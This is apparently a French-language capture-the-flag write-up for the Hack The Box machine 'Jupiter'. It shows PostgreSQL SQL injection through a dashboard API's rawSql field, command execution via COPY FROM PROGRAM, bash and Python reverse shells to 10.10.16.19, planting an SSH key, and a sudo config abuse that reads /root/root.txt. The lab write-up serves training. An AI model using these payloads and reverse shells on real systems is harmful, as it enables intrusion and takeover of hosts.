   # Jupiter

	echo "10.10.11.216 jupiter.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.216 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.216 -oN nmap.txt
	feroxbuster --silent -u http://jupiter.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
 

Aucun contenu intéressant dans le site web lui-même.

Fuzzing supplémentaire : 

	ffuf -H "Host: FUZZ.jupiter.htb" -u http://jupiter.htb -w  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 178

On trouve un sous-domaine **kiosk.jupiter.htb** :

	echo "10.10.11.216 kiosk.jupiter.htb" >> /etc/hosts

Ce sous-domaine amène sur la page http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d qui permet de consulter des informations sur les lunes de différentes planètes. 
	
En rechargeant la page ou en observant l'historique HTTP de Burp, on peut voir que des requêtes POST sont exécutées vers une API. 
Ces requêtes contiennent du SQL : 

> {
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "postgres",
        "uid": "YItSLg-Vz"
      },
      "rawSql": "select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;",
      "format": "table",
      "datasourceId": 1,
      "intervalMs": 60000,
      "maxDataPoints": 449
    }
  ],
  "range": {
    "from": "2023-10-14T05:46:45.991Z",
    "to": "2023-10-14T11:46:45.991Z",
    "raw": {
      "from": "now-6h",
      "to": "now"
    }
  },
  "from": "1697262405991",
  "to": "1697284005991"
}

On peut facilement exécuter nos propres requêtes SQL en modifiant le champ **rawSql** : 

	SELECT version()
	SELECT current_database()
	SELECT table_name FROM information_schema.tables
	SELECT * FROM pg_user
	[...]
	
Rien d'intéressant dans les données elles-mêmes, mais il reste la possibilité d'exécuter des commandes, voir : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution 

	DROP TABLE IF EXISTS cmd_exec;       
	CREATE TABLE cmd_exec(cmd_output text);
	COPY cmd_exec FROM PROGRAM ''; 
	SELECT * FROM cmd_exec;
	...
	COPY cmd_exec FROM PROGRAM 'cat /etc/passwd'; 
	SELECT * FROM cmd_exec;
	COPY cmd_exec FROM PROGRAM 'ls -la /home'; 
	SELECT * FROM cmd_exec;

Pas possible de récupérer les clés SSH. On s'oriente donc vers un reverse-shell. Les chevrons et les & sont encodés par le site et un bon nombre de payloads classiques ne fonctionnent pas. 
Rajouter **"bash -c"** semble donner plus de chances de succès : 

	COPY cmd_exec FROM PROGRAM 'bash -c \"sh -i >& /dev/tcp/10.10.16.19/9999 0>&1 \"' 
	SELECT * FROM cmd_exec;
	...
	rlwrap nc -nvlp 9999
	python3 -c "import pty ; pty.spawn('/bin/bash')"

On a bien un reverse-shell en tant que l'utilisateur **"postgres"**.


## Pivoting

	find / -perm /4000 2>/dev/null

On remarque un shell dans /tmp/ :

> /tmp/bash

Après vérification, il appartient à l'utilisateur **"juno"** et on peut donc l'utiliser pour exécuter des commandes avec son identité : 

	/tmp/bash -p
	whoami
	cd /home/juno/.ssh/
	echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/QynVuI4143Oi8ekXSt5XCejotVvbCo4xpDDmCi1mJ8DTpEShcB4OUnBFLfFd  JZqDuBrV5p2qDPV68m0XZinrrGgJwOwj3KOQcL1wu2A6qfEALEZGCOSDqvU2iABwtoS5xbbv8Q7Y9SzJ2JTlFIIjaCf0QYeMQDN5yYjFIvRjSl/OnQVK  6fkpIDg2glSe3pWLh//qgZp21sBokvtZbbhAeemCQhfh5Kou6hoZ68m+7TgYLx47q4HNWmKPwcnoQlnffDj+BfKQaPW8QNF00WBT2lEbRDyjRjgdxWMZcMSBajWhdCjCu6mupwxURh9Pa+1OXLyRvU0KFjXuDugPLoufywjImlpdapg0qIO8TEb3e1Jhk/91Vt4czP1ikX7s7DymlwDWbohXWJunLIIs92VaEs0  17FO2wc9qTojVZ163o3/6h7PbdEp5R/wbt/jjV6GeSs9FC6umUTHc/FNMceFL2WSV32UCps0LxWkzSFoIlpZHBBNkGiQQ7cREmmC1gU= timothe@Kali2021" > ma_clé_publique.txt
	cat ma_clé_publique.txt >> authorized_keys

	ssh juno@10.10.11.216
	cat user.txt	 

Premier flag OK.

	netstat -pentula 


> <br>tcp 0 0 127.0.0.1:5432 0.0.0.0:* LISTEN 114 32962 -  
> <br>tcp 0 0 127.0.0.1:8888 0.0.0.0:* LISTEN 1001 32997 -  
><br>tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN 115 33912 -  
><br>tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN 102 29577 -  
><br>tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 0 33821 -

D'après /etc/passwd l'utilisateur numéro 1001 est "jovian" et c'est le seul autre utilisateur à avoir un dossier dans /home, ce qui m'amène à penser que ce service interne est sûrement la prochaine étape pour l'élévation de privilèges. On doit donc établir un tunnel de redirection vers ce port pour le fouiller : 

	ssh -L 8888:127.0.0.1:8888 -i ~/.ssh/id_rsa juno@10.10.11.216
	firefox http://127.0.0.1:8888/
	
On tombe sur un site Jupyter Notebook qui demande un password / token. En fouillant dans les principaux dossiers du serveur, on voit qu'il y a dossier **opt/solar-flares/** contenant un fichier **.ipynb** (extension de Jupyter Notebook). Ce dossier contient aussi beaucoup de logs, contenant des tokens notamment : 

	cd /opt/solar-flares/logs
	cat *
	cat * | grep token 

Prendre n'importe quel token et le rentrer sur le site web. On peut maintenant modifier les fichiers, et inclure un reverse-shell Python dans le fichier .ipynb déjà existant par exemple : 

	import socket,subprocess,os;
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
	s.connect(("10.10.16.19",9999));
	os.dup2(s.fileno(),0); 
	os.dup2(s.fileno(),1);
	os.dup2(s.fileno(),2);
	import pty; pty.spawn("sh")

Cliquer sur "Run" et attendre le reverse-shell de Jovian sur un listener : 

	rlwrap  nc  -nvlp 9999
	...
	whoami 
	python3 -c "import pty ; pty.spawn('/bin/bash')"
	

## Élévation de privilèges

	sudo -l 

> User jovian may run the following commands on jupiter:  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;(ALL) NOPASSWD: /usr/local/bin/sattrack

	ls -l /usr/local/bin/sattrack

> -rwxr-xr-x 1 root root 1113632 Mar 8 2023 /usr/local/bin/sattrack

Impossible d'écrire dans ce binaire, mais on peut trouver des informations intéressantes dedans : 

	strings /usr/local/bin/sattrack | less

On trouve un morceau très intéressant : 

> /tmp/config.json  
<br>Configuration file has not been found. Please try again!  
<br>tleroot  
<br>tleroot not defined in config

	find / -name "config.json" 2>/dev/null
	cp /usr/local/share/sattrack/config.json /tmp/config.json
	cd /tmp/
	cat config.json

On voit que ce fichier de configuration récupère des ressources depuis des URL de sites web : 

	

> "tlesources": [  
<br>"http://celestrak.org/NORAD/elements/weather.txt",  
<br>"http://celestrak.org/NORAD/elements/noaa.txt",  
<br>"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"  
],

En remplaçant une de ces URL par **"file:///root/root.txt"** on peut directement récupérer le flag : 

	chmod 777 /tmp/config.json
	vi /tmp/config.json # Avec Juno, qui a un shell plus stable
	sudo /usr/local/bin/sattrack # Avec Jovian
	
Le programme s'exécute bien et on voit qu'il sort des résultats dans /tmp/ :

	ls /tmp
	ls /tmp/tle
	cat /tmp/tle/root.txt


